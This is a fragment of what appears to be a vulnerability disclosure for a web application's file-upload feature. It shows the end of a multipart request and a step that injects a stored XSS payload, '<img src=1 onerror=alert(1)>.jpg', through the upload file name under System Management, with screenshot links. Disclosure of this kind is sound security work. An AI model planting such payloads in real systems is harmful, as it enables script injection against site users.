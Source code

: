 ```
123456
------WebKitFormBoundary8QlVhbN3eIw5KKQb--

```

System Management -> File Management -> Upload File, file name inject payload, \<img src=1 onerror=alert(1)>.jpg

![image-20250228215010830](assets/image-20250228215010830.png)

![image-20250228215031374](assets/image-20250228215031374.png)
